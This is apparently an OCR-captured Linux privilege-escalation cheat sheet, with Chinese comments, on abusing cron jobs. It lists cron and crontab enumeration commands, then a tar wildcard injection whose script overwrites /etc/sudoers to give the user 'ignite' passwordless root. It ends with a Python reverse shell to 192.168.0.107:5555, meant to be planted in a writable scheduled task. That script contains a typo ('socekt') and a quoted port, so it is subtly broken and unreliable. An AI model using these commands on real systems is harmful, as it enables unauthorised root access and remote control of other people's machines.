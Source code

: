 	crontab -l
	ls -alh /var/spool/cron;
	ls -al /etc/ | grep cron
	ls -al /etc/cron*
	cat /etc/cron*
	cat /etc/at.allow
	cat /etc/at.deny
	cat /etc/cron.allow
	cat /etc/cron.deny*
	
	>for user in $(getent passwd|cut -f1 -d:); do echo "### Crontabs for $user####"; crontab -u $user -l; done 列举所有用户的crontab
	$cat /etc/crontab
	$echo 'echo "ignite ALL=(root) NOPASSWD: ALL" > /etc/sudoers' >test.sh
	$echo "" > "--checkpoint-action=exec=sh test.sh"
	$echo "" > --checkpoint=1
	或编辑可写的计划任务文件
	#!/usr/bin/python
	import os,subprocess,socket
	s=socket.socekt(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(("192.168.0.107","5555"))
	os.dup2(s.fileno(),0)
	os.dup2(s.fileno(),1)
	os.dup2(s.fileno(),2)
	p=subprocess.call(["/bin/sh","-i"])
